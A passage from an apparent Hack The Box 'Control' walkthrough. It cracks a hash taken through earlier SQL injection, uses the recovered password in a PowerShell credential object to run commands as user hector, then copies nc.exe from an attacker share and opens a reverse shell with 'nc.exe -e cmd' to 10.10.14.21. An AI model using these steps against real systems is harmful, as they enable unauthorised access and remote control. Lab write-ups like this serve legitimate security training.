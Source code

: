I will be able to execute commands as hector using powershell but I will need hector's password.

### Password Crack

Remembering password hash discovered from SQLi earlier, I will use crackstation to crack it: **l33th4x0rhector**

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/control-crack.png)

### Run command as Hector

Now that I have password for user **Hector**, I will be able to run command as hector.

After starting Powershell using `powershell`, I will create credential object:

```powershell
$SecPassword = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('object.local\hector', $SecPassword)
```

Now using powershell's cmdlet **Invoke-Command** and credential object, I can run commands as hector:

`Invoke-Command -Computer localhost -Credential $Cred -ScriptBlock {whoami}`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-43.png)

### Shell as hector

Now that I can run commands as hector, I will once again try to spawn a reverse shell. 

For some reason, hector cannot access the **nc.exe** file uploaded previously to `C:\Windows\Temp`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-44.png)

I will make one more copy of nc.exe to different directory:

`copy \\10.10.14.21\share\nc.exe C:\Windows\system32\spool\drivers\color\nc.exe`

Now I can successfully run the command:

`Invoke-Command -Computer localhost -Credential $Cred -ScriptBlock {C:\Windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.21 1338}`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-45.png)

